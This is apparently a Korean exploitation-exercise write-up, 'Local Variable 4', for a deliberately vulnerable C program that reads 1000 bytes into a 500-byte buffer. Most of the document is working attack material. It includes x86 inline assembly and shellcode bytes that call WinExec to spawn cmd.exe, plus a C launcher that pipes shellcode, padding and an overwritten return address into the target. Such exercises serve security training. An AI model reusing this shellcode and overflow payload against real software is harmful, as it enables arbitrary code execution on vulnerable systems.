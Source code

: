 # Local Variable 4

### Question

- cmd.exe가 실행되도록 입력 페이로드 구현

```
#include <stdio.h>
void printit() {
	printf("Nothing special\\n");
}int main()
{
	int crap;
	void(*call)() = printit;
	char buf[500];
	fgets(buf, 1000, stdin);
	call();
	dumpcode((unsigned char *)buf, 1000);
}

```



<br>



### Analysis

![image-1.png](images/image-26.png)

![image-2.png](images/image-2.png)

- test() : Shellcode disassembly

- Shellcode : `\\x55\\x8b\\xec\\x53\\x57\\x33\\xdb\\x68\\xf0\\xdc\\x31\\x76\\x8b\\xfc\\x83\\xec\\x08\\xc7\\x45\\xec\\x63\\x6d\\x64\\x2e\\xc7\\x45\\xf0\\x65\\x78\\x65\\x00\\x8b\\xdc\\x6a\\x01\\x53\\xff\\x17\\x5f\\x5b\\x8b\\xe5\\x5d`



<br>



### Result

```
// shellcode.c

#include <windows.h>
#include <stdio.h>

int GetWinExec()
{
	HMODULE hModule = GetModuleHandleA("Kernel32.dll");
	int addr = (int)GetProcAddress(hModule, "WinExec");

	printf("WinExec address : 0x%x\n", addr);	// 0x7631dcf0

	return addr;
}

void test(int addr)
{
	__asm {
		// 프롤로그
		push	ebp
		mov		ebp, esp

		push	ebx
		push	edi

		// ebx 초기화
		xor		ebx, ebx

		// WinExec() 함수 주소
		push	0x7631dcf0
		mov		edi, esp

		sub		esp, 0x8

		mov DWORD PTR[ebp - 0x14], 0x2e646d63	// cmd.
		mov DWORD PTR[ebp - 0x10], 0x657865		// exe

		mov		ebx, esp

		// WinExec("cmd.exe", 1);
		push	0x1
		push	ebx
		call	DWORD PTR[edi]

		pop		edi
		pop		ebx

		// 에필로그
		mov		esp, ebp
		pop		ebp
	}
}

int main(int argc, char* argv[])
{
	int addr = GetWinExec();
	
	test(addr);
	test(0x7631dcf0);
	
	unsigned char shellcode[] = "\x55\x8b\xec\x53\x57\x33\xdb\x68\xf0\xdc\x31\x76\x8b\xfc\x83\xec\x08\xc7\x45\xec\x63\x6d\x64\x2e\xc7\x45\xf0\x65\x78\x65\x00\x8b\xdc\x6a\x01\x53\xff\x17\x5f\x5b\x8b\xe5\x5d";
	void(*shell)() = (void(*)())shellcode;

	shell();

	return 0;
}
```

```
// payload.c

#include <stdlib.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
	char cmd[1024] = "python2 -c \"print ";
	char *shellcode = "\x55\x8b\xec\x53\x57\x33\xdb\x68\xf0\xdc\x31\x76\x8b\xfc\x83\xec\x08\xc7\x45\xec\x63\x6d\x64\x2e\xc7\x45\xf0\x65\x78\x65\x00\x8b\xdc\x6a\x01\x53\xff\x17\x5f\x5b\x8b\xe5\x5d";
	char *fname = ".\\local_var_4.exe";

	strcat(cmd, "\'");
	strcat(cmd, shellcode);
	strcat(cmd, "\' + \'A\'*465 + \'\\x34\\xfd\\x19\\x00\'\"");
	strcat(cmd, " | ");
	strcat(cmd, fname);

	//printf("%s\n", cmd);
	system(cmd);

	return 0;
}
```

![image-3.png](images/image-3.png)

![image-4.png](images/image-4.png)



<br>



### Reference

- [https://ccurity.tistory.com/275](https://ccurity.tistory.com/275)
